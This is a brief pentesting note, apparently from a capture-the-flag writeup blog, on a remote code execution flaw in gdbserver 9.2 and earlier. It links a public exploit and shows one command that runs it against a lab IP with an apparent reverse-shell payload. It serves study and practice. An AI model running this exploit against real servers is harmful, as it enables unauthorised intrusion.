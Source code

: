 ```yaml
---
description: >-
  GDBServer prior to 9.2 vulnerable to RCE 
title: GDBServer 9.2 RCE              # Add title here
date: 2022-07-12 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, GDBServer 9.2 RCE]                     # Change Templates to Writeup
tags: [exploitation, gdbserver, rce]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

If the gdbserver is 9.2 or prior it is vulnerable to a RCE exploitation:

Exploit: [gdbserver](https://www.exploit-db.com/exploits/50539)

```bash
sudo python3 gdbserver_rce.py 10.10.11.125:1337 rev.bin
```
Examples:
[Backdoor](https://shuciran.github.io/posts/Backdoor/#fnref:gdbserver-rce)